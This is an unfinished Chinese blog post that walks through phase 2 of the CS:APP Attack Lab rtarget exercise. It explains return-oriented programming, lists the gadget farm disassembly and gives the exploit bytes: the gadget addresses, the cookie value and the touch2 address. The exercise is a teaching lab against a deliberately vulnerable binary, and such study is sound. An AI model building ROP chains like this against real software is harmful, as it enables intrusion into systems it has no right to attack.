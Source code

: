 ```yaml
---
title: attacklab-rtarget（未完成）
tags:
  - csapp
  - attacklab
categories:
  - csapp
keywords:
  - csapp
  - attacklab
  - 栈溢出
  - ROP
  - rtarget
highlight_shrink: true
top_img: >-
  https://adguycn990-typoraimage.oss-cn-hangzhou.aliyuncs.com/202211232358703.webp
katex: false
copyright_author: adguy
copyright_author_href: 'https://adguycn990.github.io'
copyright_url: 'https://adguycn990.github.io/adguy/aeaca493.html'
copyright_info: 此文章版权归金晖の博客所有，如有转载，请注明来自原作者
abbrlink: aeaca493
date: 2022-11-26 16:46:23
post_copyright:
---
```


## 写在前面

{% link 官方文档, https://csapp.cs.cmu.edu/3e/attacklab.pdf, https://csapp.cs.cmu.edu/3e/images/csapp3e-cover.jpg %}

和ctarget不同，rtarget程序引入了常见的栈保护机制，如栈随机化，使得程序运行的地址是不确定的。这样便无法通过注入代码（写指令）的方式攻击程序。

但是办法总比困难多。有些人想出了一个叫“断章取义”的办法来攻击程序。即在指令集中截取某一部分指令（掐头不去尾），这部分指令的意思可能会发生变化，然后我们就利用这部分现有的指令去攻击程序。

以官方文档给出的例子为例：

```
400f15: c7 07 d4 48 89 c7 movl $0xc78948d4,(%rdi)
400f1b: c3 retq
```

如果只截取`48 89 c7`这段指令的话，那么我们就生成了一个全新的指令：`movq %rax, %rdi`

实验作者已经把这些可能有帮助的指令全都放到了rtarget的`start_farm`和`mid_farm`中间。

```
0000000000401994 <start_farm>:
  401994:	b8 01 00 00 00       	mov    $0x1,%eax
  401999:	c3                   	retq   

000000000040199a <getval_142>:
  40199a:	b8 fb 78 90 90       	mov    $0x909078fb,%eax
  40199f:	c3                   	retq   

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   

00000000004019ae <setval_237>:
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq   

00000000004019b5 <setval_424>:
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	retq   

00000000004019bc <setval_470>:
  4019bc:	c7 07 63 48 8d c7    	movl   $0xc78d4863,(%rdi)
  4019c2:	c3                   	retq   

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   

00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   

00000000004019d0 <mid_farm>:
  4019d0:	b8 01 00 00 00       	mov    $0x1,%eax
  4019d5:	c3                   	retq   
```

实验文档中也提供了一些指令的组合：

### movq S, D

![image-20221126171802112](https://adguycn990-typoraimage.oss-cn-hangzhou.aliyuncs.com/202211261903592.webp)

### popq R

![image-20221126171815587](https://adguycn990-typoraimage.oss-cn-hangzhou.aliyuncs.com/202211261903431.webp)

### movl S, D

![image-20221126171902793](https://adguycn990-typoraimage.oss-cn-hangzhou.aliyuncs.com/202211261903897.webp)

### nop R, R

![image-20221126172041517](https://adguycn990-typoraimage.oss-cn-hangzhou.aliyuncs.com/202211261903121.webp)

## Leval1

要求和ctarget的第二阶段一模一样，要使得rdi=cookie。

题目提示我们可以用`popq`指令来解决问题， 而且只需要两条指令就可以实现效果。

`popq`会执行以下两条指令：

```
movq (%rsp), %rax
addq $8, %rsp
```

可惜无法找到`popq %rdi`对应的机器码。但是我们能找到`popq %rax` 对应的`58 + c3`（地址是4019ab）和`movq %rax, %rdi`对应的`48 89 c7 + c3`（地址是4019a2）。把这两段拼起来就能达到我们想要的效果了！

首先是这一段指令：

```
ab 19 40 00 00 00 00 00  /* 覆盖返回地址 */
fa 97 b9 59 00 00 00 00  /* cookie 的值 */
```

覆盖原先的返回地址，到达0x4019ab这个地方执行指令。但是在这个时候，`rsp`指针指向的地址是返回地址加8的位置，因为`getbuf`的ret指令会将rsp+8（别忘了写代码的地方也是一个函数`getbuf`，函数返回时会调用ret指令）。这就让rsp成功指向我们存放cookie的地方。

当popq的时候，就会把cookie存放到rax里面。接着的指令是`90`，跳过，接着是`c3`也就是执行ret指令，返回写代码的地方。

然后：

```
A2 19 40 00 00 00 00 00
```

跳到这个地方执行movq指令，把rax里面的东西存放到rdi里面。然后ret。

最后：

```
EC 17 40 00 00 00 00 00
```

跳转到touch2函数所在地址。

### 总结

这中间rsp的位置到底指向哪里非常的绕，需要对popq, retq有一定的理解才能看懂。
